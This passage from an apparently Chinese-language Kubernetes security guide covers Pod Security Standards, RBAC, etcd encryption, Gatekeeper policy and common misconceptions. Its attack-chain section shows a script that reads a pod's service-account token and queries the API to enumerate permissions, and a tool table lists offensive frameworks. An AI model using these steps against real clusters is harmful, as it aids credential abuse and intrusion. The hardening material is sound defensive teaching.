# 在命名空间上启用 Pod Security Standards
apiVersion: v1
kind: Namespace
metadata:
  name: production
  labels:
    # restricted: 最严格，不允许特权操作
    pod-security.kubernetes.io/enforce: restricted
    pod-security.kubernetes.io/audit: restricted
    pod-security.kubernetes.io/warn: restricted
```

**三级安全标准对比**：

| 标准 | 特权容器 | hostPath | hostNetwork | hostPID | 适用场景 |
|------|----------|----------|-------------|---------|----------|
| privileged | ✅ 允许 | ✅ 允许 | ✅ 允许 | ✅ 允许 | 系统级组件 |
| baseline | ❌ 禁止 | ❌ 禁止 | ❌ 禁止 | ❌ 禁止 | 普通应用 |
| restricted | ❌ 禁止 | ❌ 禁止 | ❌ 禁止 | ❌ 禁止 | 高安全要求 |

#### 19.4.9.2 RBAC 最佳实践

```yaml
# 最小权限原则示例：只读访问特定命名空间的Pod
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  namespace: production
  name: pod-reader
rules:
- apiGroups: [""]
  resources: ["pods"]
  verbs: ["get", "list", "watch"]
  # 限制到特定资源名称（K8s 1.23+）
  # resourceNames: ["specific-pod"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: read-pods
  namespace: production
subjects:
- kind: ServiceAccount
  name: monitoring-sa
  namespace: production
roleRef:
  kind: Role
  name: pod-reader
  apiGroup: rbac.authorization.k8s.io
```

**RBAC 审计命令**：

```bash
# 找出所有绑定了cluster-admin的用户/SA
kubectl get clusterrolebindings -o json | jq '.items[] | 
  select(.roleRef.name=="cluster-admin") | 
  {name: .metadata.name, subjects: .subjects}'

# 找出所有拥有secrets读取权限的SA
kubectl get clusterrolebindings,rolebindings --all-namespaces -o json | jq '
  .items[] | select(.roleRef.name=="cluster-admin" or 
  (.roleRef.name == "edit" or .roleRef.name == "admin")) | 
  {binding: .metadata.name, role: .roleRef.name, subjects: .subjects}'

# 审计匿名访问配置
kubectl get clusterrolebindings -o json | jq '.items[] | 
  select(.subjects[]?.name=="system:anonymous") | 
  {name: .metadata.name, role: .roleRef.name}'
```

#### 19.4.9.3 etcd 加固

```bash
# 1. 确保etcd只监听本地
# /etc/kubernetes/manifests/etcd.yaml 中
# --listen-client-urls=https://127.0.0.1:2379

# 2. 启用etcd加密（EncryptionConfiguration）
cat <<EOF > /etc/kubernetes/enc-config.yaml
apiVersion: apiserver.config.k8s.io/v1
kind: EncryptionConfiguration
resources:
- resources:
  - secrets
  providers:
  - aescbc:
      keys:
      - name: key1
        secret: <base64-encoded-32-byte-key>
  - identity: {}  # 用于读取未加密的旧数据
EOF

# API Server 启动参数添加：
# --encryption-provider-config=/etc/kubernetes/enc-config.yaml

# 3. 加密现有Secret
kubectl get secrets --all-namespaces -o json | kubectl replace -f -
```

#### 19.4.9.4 准入控制加固

```yaml
# 使用 OPA/Gatekeeper 实现策略控制
# 示例：禁止特权容器
apiVersion: templates.gatekeeper.sh/v1
kind: ConstraintTemplate
metadata:
  name: k8spspprivilegedcontainer
spec:
  crd:
    spec:
      names:
        kind: K8sPSPPrivilegedContainer
  targets:
  - target: admission.k8s.gatekeeper.sh
    rego: |
      package k8spspprivilegedcontainer
      violation[{"msg": msg, "details": {}}] {
        c := input_containers[_]
        c.securityContext.privileged
        msg := sprintf("Privileged container is not allowed: %v, %v", [input.review.object.metadata.name, c.name])
      }
      input_containers[c] {
        c := input.review.object.spec.containers[_]
      }
      input_containers[c] {
        c := input.review.object.spec.initContainers[_]
      }
---
apiVersion: constraints.gatekeeper.sh/v1beta1
kind: K8sPSPPrivilegedContainer
metadata:
  name: psp-privileged-container
spec:
  match:
    kinds:
    - apiGroups: [""]
      kinds: ["Pod"]
    namespaces:
    - production
    - staging
```

### 19.4.10 常见错误与误区

**误区一：以为 NetworkPolicy 能阻止所有网络攻击**
- 事实：NetworkPolicy 只控制 Pod 间通信，hostNetwork Pod 不受其约束，且 DNS 通常被放行。
- 正确做法：NetworkPolicy + 严格的 Pod Security Standards + 服务网格（如 Istio mTLS）。

**误区二：以为非特权容器就安全**
- 事实：内核漏洞（Dirty Pipe、OverlayFS）可在非特权容器中实现逃逸。
- 正确做法：保持内核更新 + gVisor/Kata Containers 强隔离 + seccomp 限制系统调用。

**误区三：以为 RBAC 配置正确就足够**
- 事实：RBAC 不限制 API 请求的频率和内容，无法阻止自动化枚举。
- 正确做法：RBAC + 准入控制（OPA/Gatekeeper）+ API 审计日志 + 速率限制。

**误区四：以为 Secret 用 etcd 加密就安全**
- 事实：etcd 加密只防止离线读取 etcd 数据，API Server 仍然可以解密返回。
- 正确做法：etcd 加密 + 外部密钥管理（Vault/AWS KMS）+ 最小权限 RBAC。

**误区五：忽略 ServiceAccount Token 的风险**
- 事实：K8s 1.24 之前的 SA Token 是永久的，且默认自动挂载到每个 Pod。
- 正确做法：升级到 K8s 1.24+（短期 Token）+ `automountServiceAccountToken: false` + 投射卷 Token（设置过期时间）。

### 19.4.11 攻击链路完整示例

以下是一个从初始访问到完全控制的完整攻击链路：



```bash
# 完整攻击链路脚本概要
# Step 1: 初始枚举
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
CACERT=/var/run/secrets/kubernetes.io/serviceaccount/ca.crt
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

# Step 2: 权限检查
PERMS=$(curl -sk --cacert "$CACERT" -H "Authorization: Bearer $TOKEN" \
  https://kubernetes.default.svc/apis/authorization.k8s.io/v1/selfsubjectrulesreviews \
  -X POST -H 'Content-Type: application/json' \
  -d '{"kind":"SelfSubjectRulesReview","apiVersion":"authorization.k8s.io/v1","spec":{}}')

echo "$PERMS" | jq '.status.resourceRules[] | 
  select(.verbs[] == "*" or .verbs[] == "get") | 
  {resources: .resources, verbs: .verbs}'

# Step 3: 根据权限执行对应攻击路径
# ... 根据输出选择上述攻击方式
```

### 19.4.12 工具速查表

| 工具 | 用途 | 项目地址 |
|------|------|----------|
| kubectl | K8s 官方 CLI | 内置 |
| kubeaudit | 安全审计 | github.com/Shopify/kubeaudit |
| kube-bench | CIS 基准检查 | github.com/aquasecurity/kube-bench |
| kube-hunter | 渗透测试 | github.com/aquasecurity/kube-hunter |
| Peirates | K8s 攻击框架 | github.com/inguardians/peirates |
| CDK | 云环境攻击工具 | github.com/cdk-team/CDK |
| kubeletctl | kubelet API 客户端 | github.com/cyberark/kubeletctl |
| etcdctl | etcd 管理工具 | etcd.io |
| rakkess | RBAC 可视化 | github.com/corneliusweig/rakkess |
| kubectl-who-can | 权限查询 | github.com/aquasecurity/kubectl-who-can |
| Falco | 运行时威胁检测 | github.com/falcosecurity/falco |
| Trivy | 漏洞扫描 | github.com/aquasecurity/trivy |
